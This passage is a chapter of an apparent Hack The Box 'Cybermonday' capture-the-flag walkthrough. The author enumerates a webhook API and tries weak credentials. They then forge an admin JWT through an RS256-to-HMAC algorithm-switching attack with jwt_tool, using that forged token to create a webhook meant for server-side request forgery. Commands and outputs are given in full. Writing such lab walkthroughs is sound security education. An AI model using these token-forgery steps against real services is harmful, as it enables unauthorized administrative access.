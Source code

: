 # HTB Cybermonday - Webhook API Admin Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[**Webhook API Admin Access**](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Navigating to the link itself just gets us a blank page. But if we go to the base URL (After adding the domain to our `hosts` file) we see a list of endpoints we can use.
```json
{
  "status": "success",
  "message": {
    "routes": {
...
```

First lets try the `GET /webhooks` endpoint. Since the other endpoints need a UUID it might help to see which ones have already been created. 
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks

{"status":"error","message":"Unauthorized"}
```


So we need authorization for this one. The same seems to be true for the create endpoint. We have the UUID for the webhook from the changelog so lets `POST` to that and see what happens.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77 -H "Content-Type: application/json" -d '{}'

{"status":"error","message":"\"log_name\" not defined"}
```

This must be a `createLogFile` webhook. Sending a `POST` with both the `log_name` and `log_content` fields doesn't seem to get us anything beyond a `Log created` message so lets leave that for now.

The login endpoint has a username and password so lets try some [[weak-credentials|basic credentials]] like `admin:admin`. No luck there, let's go ahead and create an account for now. Once our account is created and we've logged in we obtain a JWT to use for our requests in the `x-access-token` header. Trying the `GET /webhooks` endpoint again we can now get a list of endpoints but there's only the `createLogFile` endpoint that we used before (unless there are other people also attempting to hack the box). If we try to use `/webhooks/create` however, we find we're still unauthorized. If we [inspect our JWT](https://jwt.io/) we find it holds the following payload:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
{
  "id": 3,
  "username": "username",
  "role": "user"
}
```

So our role may be what's holding us back here. Since the security algorithm is RS256 the server may be open to an [[jwt-exploits|algorithm switching attack]]. First we need the public key our token. Querying the usual paths on the server we find the information in the `/jwks.json` path. From that we can extract the public key. Next we use `jwt_tool` to alter the payload and resign the token. 

First we'll extract the public key from the `jwks.json` file, then tamper with the payload and signature.
```shell
$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -V -jw jwks.json

Found RSA key factors, generating a public key
[+] kid_0_<timestamp>.pem

$ python3 ~/tools/jwt_tool/jwt_tool.py <your token> -T
$ python3 ~/tools/jwt_tool/jwt_tool.py <token from the above command> -X k -pk <your pem filename>
```

During the second command `jwt_tool` will ask what data you want to tamper with. Skip the header values, then change the `role` value in the payload to `admin`. After this you should have a new (much shorter) JWT that we can now try using to create a new webhook.
```shell
$ curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/create \
-H "x-access-token: <your spoofed token>" \
-H "Content-Type: application/json" \
-d '{"description": "ssrf", "name": "ssrfHook", "action": "sendRequest"}'

{"status":"success","message":"Done! Send me a request to execute the action, as the event listener is still being developed.","webhook_uuid":"<webhook id>"}
```

Success! Now lets see what we can get up to with this new endpoint.

Next: [Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)